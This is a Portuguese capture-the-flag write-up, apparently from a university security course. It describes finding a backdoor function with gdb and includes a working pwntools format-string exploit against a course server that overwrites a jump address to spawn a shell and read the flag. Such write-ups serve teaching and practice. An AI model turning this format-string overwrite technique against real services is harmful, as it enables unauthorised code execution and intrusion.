

## CTF EXTRA

### Primeiro usamos checksec no programa


### Chegando à conclusão que escrever na Stack ia ser dificil.


### Usamos o gdb e usamos o comando info functions onde nos foi possivel ver todas as funções presentes no código:


### Dentro do gdb há uma ferramenta chamada disas que nos permite analisar as funções, ao analisar a função old_backdoor vimos uma system call que pode abrir uma shell


### Sendo assim, nós queremos correr essa função e precisamos de direcionar o programa para aí.

### Para isso começamos a fazer debug usando gdb program, fazendo um breakpoint no main e executando o programa com 'run'. Em seguida fizemos jump_old_backdoor para saltar para a função que quermos, e fizemos ni para ver o proximo passo até descobrir se a systemcall era bin/bash ( se era uma shell):


### Verificamos então que se tratava mesmo de uma shell.

### Agora precisamos de saber qual é o endereço em que precisamos de dar overwrite para dar jump para esta função.

### Encontramos um jump para o endereço 0x0804c010

### Construimos um exploit que rescreve a função old_backdoor para esse endereço usando format strings.


```python

from pwn import *

LOCAL = False

if LOCAL:
    pause()
else:
    p = remote("ctf-sp.dcc.fc.up.pt", 4007)

#0x08049236  old_backdoor

N = 60
content = bytearray(0x0 for i in range(N))

content[0:4]  =  (0xaaaabbbb).to_bytes(4, byteorder='little')
content[4:8]  =  (0x0804c012).to_bytes(4, byteorder='little')
content[8:12]  =  ("????").encode('latin-1')
content[12:16]  =  (0x0804c010).to_bytes(4, byteorder='little')

s = "%.2036x" + "%hn" + "%.35378x%hn"

fmt  = (s).encode('latin-1')
content[16:16+len(fmt)] = fmt

p.recvuntil(b"here...")
p.sendline(content)
p.interactive()

```

### Corremos o exploit, e na shell fizemos cat flag.txt.



